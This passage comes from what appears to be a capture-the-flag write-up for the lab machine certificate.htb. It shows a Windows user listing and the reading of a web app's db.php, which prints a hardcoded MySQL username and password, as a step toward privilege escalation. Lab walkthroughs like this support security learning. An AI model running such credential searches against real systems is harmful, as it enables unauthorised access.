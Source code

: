 Since we didn't had any useful permissions we looked for additional `users` on the box.

```cmd
C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is 7E12-22F9

 Directory of C:\Users

12/29/2024  06:30 PM    <DIR>          .
12/29/2024  06:30 PM    <DIR>          ..
12/30/2024  09:33 PM    <DIR>          Administrator
11/23/2024  07:59 PM    <DIR>          akeder.kh
11/04/2024  01:55 AM    <DIR>          Lion.SK
11/03/2024  02:05 AM    <DIR>          Public
11/03/2024  08:26 PM    <DIR>          Ryan.K
11/26/2024  05:12 PM    <DIR>          Sara.B
12/29/2024  06:30 PM    <DIR>          xamppuser
               0 File(s)              0 bytes
               9 Dir(s)   4,494,254,080 bytes free
```

| Usernames  |
| ---------- |
| akender.kh |
| Lion.SK    |
| Ryan.K     |
| Sara.B     |

## Privilege Escalation to Sara.B

While searching through the `xampp` directory we found some `credentials` for the `MySQL Database`.

```cmd
C:\xampp\htdocs\certificate.htb>type db.php
<?php
// Database connection using PDO
try {
    $dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
    $db_user = 'certificate_webapp_user'; // Change to your DB username
    $db_passwd = 'cert!f!c@teDBPWD'; // Change to your DB password
    $options = [
        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    ];
    $pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
    die('Database connection failed: ' . $e->getMessage());
}
?>
```
